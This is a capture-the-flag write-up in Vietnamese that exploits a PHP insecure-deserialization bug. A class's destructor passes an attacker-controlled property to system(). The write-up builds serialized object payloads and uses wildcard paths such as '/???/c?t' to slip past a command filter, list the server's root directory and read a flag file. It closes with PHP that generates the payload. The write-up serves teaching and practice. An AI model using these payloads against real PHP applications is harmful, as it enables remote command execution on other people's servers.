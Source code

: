 Trước hết, khi nhìn vào source code của chương trình, ta thấy chương trình nhận vào một biến $_GET['payload'], challenge này thuộc dạng khai thác lỗ hổng Deserialize
nên ta sẽ truyền payload vào trong biến GET trên URL.

Nguyên văn class ban đầu của chương trình:

```PHP
class exploit_me
{
    public $cmd;
    public function __destruct(){
        system($this->cmd);
    }
}
```

Ta thấy để khai thác được lỗ hổng này thì ta cần truyền vào một biến cmd là câu lệnh sẽ được chạy trong hàm system của PHP

Nếu vậy thì đối với challenge này, ta sẽ cần đọc file flag.txt (dự đoán) đang nằm ở đâu đó trong hệ thống file của máy chủ chạy trang web này

Ta sẽ thử với payload như sau:

```
O:10:"exploit_me":1:{s:3:"cmd";s:2:"ls";}
```
Ta thấy đối với payload này, trang web không trả về kết quả nào, do trang web và hệ thống host đã có cơ chế chống thực thi trong webshell

Để bypass trường hợp này, ta cần sử dụng các ký tự đặc biệt cũng như các payload đặc biệt.

Ta sẽ thực hiện list tất cả các file nằm ở thư mục / (root) của hệ thống bằng payload:

```
O:10:%22exploit_me%22:1:%7Bs:3:%22cmd%22;s:10:%22/???/d?r%20/%22;%7D
```

Như vậy ta thấy hệ thống file được hiển thị ra, ta cần nội dung file ```a8749209e3d652e_flag```, do đó ta sẽ đổi payload sang:

```
O:10:"exploit_me":1:{s:3:"cmd";s:30:"/???/c?t /a8749209e3d652e_flag";}
```

Code PHP tạo payload:

```PHP
```PHP
class exploit_me
{
    public $cmd = "/???/c?t /a8749209e3d652e_flag";
    public function __destruct(){
        system($this->cmd);
    }
}
```
```



